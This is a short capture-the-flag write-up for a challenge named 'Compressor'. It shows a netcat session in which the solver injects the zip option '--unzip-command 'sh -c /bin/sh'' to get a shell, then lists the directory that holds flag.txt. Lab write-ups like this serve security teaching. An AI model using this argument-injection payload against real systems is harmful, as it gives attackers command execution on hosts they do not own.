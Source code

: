 # Compressor

##  CHALLENGE DESCRIPTION

Ramona's obsession with modifications and the addition of artifacts to her body has slowed her down and made her fail and almost get killed in many missions. For this reason, she decided to hack a tiny robot under Golden Fang's ownership called "Compressor", which can reduce and increase the volume of any object to minimize/maximize it according to the needs of the mission. With this item, she will be able to carry any spare part she needs without adding extra weight to her back, making her fast. Can you help her take it and hack it?

'''
nc 83.136.254.158 44462

[*] Directory to work in: r91Oj85oTvtDVGTTDLF5HXFrrBWy5uBn

Component List:

+===============+
|               |
|  1. Head  🤖  |
|  2. Torso 🦴   |
|  3. Hands 💪  |
|  4. Legs  🦵   |
|               |
+===============+
  
[*] Choose component: 1

[*] Sub-directory to work in: r91Oj85oTvtDVGTTDLF5HXFrrBWy5uBn/Head


Actions:

1. Create artifact
2. List directory    (pwd; ls -la)
3. Compress artifact (zip <name>.zip <name> <options>)
4. Change directory  (cd <dirname>)
5. Clean directory   (rm -rf ./*)
6. Exit
  
[*] Choose action: 1   


Insert name: hack

Insert content: hack


[+] Artifact [hack] was created successfuly!

Actions:                                                                                                                                                      
                                                                                                                                                              
1. Create artifact                                                                                                                                            
2. List directory    (pwd; ls -la)                                                                                                                            
3. Compress artifact (zip <name>.zip <name> <options>)                                                                                                        
4. Change directory  (cd <dirname>)                                                                                                                           
5. Clean directory   (rm -rf ./*)                                                                                                                             
6. Exit                                                                                                                                                       
                                                                                                                                                              
[*] Choose action: 3


Insert <name>.zip: hack
Insert <name>: hack
Insert <options>: -T --unzip-command 'sh -c /bin/sh'
  adding: hack (stored 0%)
id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
whoami
ctf
pwd
/home/ctf/r91Oj85oTvtDVGTTDLF5HXFrrBWy5uBn/Head
cd ..
cd ..
ls -la
total 40
drwxr-sr-x    1 ctf      ctf           4096 Nov  6 04:57 .
drwxr-xr-x    1 root     root          4096 Mar  3  2022 ..
drwxr-sr-x    6 ctf      ctf           4096 Nov  6 04:57 AK2XyC6xRqb0CRMAp5qwDGe56kkgrAoQ
drwxr-sr-x    6 ctf      ctf           4096 Nov  6 04:57 EGlPz7Fe6LK7gPBTvKNh5OmPFSBYMRlY
-rwxrwxr-x    1 root     root          3020 May 16  2022 artifacts.py
-rw-rw-r--    1 root     root           263 May 12  2022 clear.py
-rw-rw-r--    1 root     root            41 May 23  2022 flag.txt
drwxr-sr-x    6 ctf      ctf           4096 Nov  6 04:57 r91Oj85oTvtDVGTTDLF5HXFrrBWy5uBn
drwxr-sr-x    6 ctf      ctf           4096 Nov  6 04:57 sfOow1YsRyo7BGG2iDoFW7Z57RYSN7H7
'''

